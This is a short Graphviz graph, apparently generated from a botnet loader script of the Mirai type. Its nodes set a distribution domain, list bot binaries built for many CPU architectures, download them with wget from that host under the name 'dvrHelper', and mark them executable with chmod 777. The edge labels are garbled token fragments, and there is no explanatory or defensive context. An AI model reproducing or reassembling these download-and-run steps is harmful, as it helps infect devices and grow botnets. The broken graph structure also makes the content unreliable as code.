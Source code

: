 digraph {
0 [label="DOMAIN=net-stress.us "];
0 -> 0
2 [label="BINARYS=bot.arm bot.arm5n bot.arm7 bot.m68k bot.mips bot.mpsl bot.ppc bot.sh4 bot.spc bot.x86 "];
2 -> 4 [label="N,"];
4 [label="wget http://$domain/bins/$bins -O dvrHelper "];
4 -> 6 [label="N,SC,N,for,in,,do,"];
6 [label="chmod 777 dvrHelper "];
6 -> 7 [label=";,"];
}
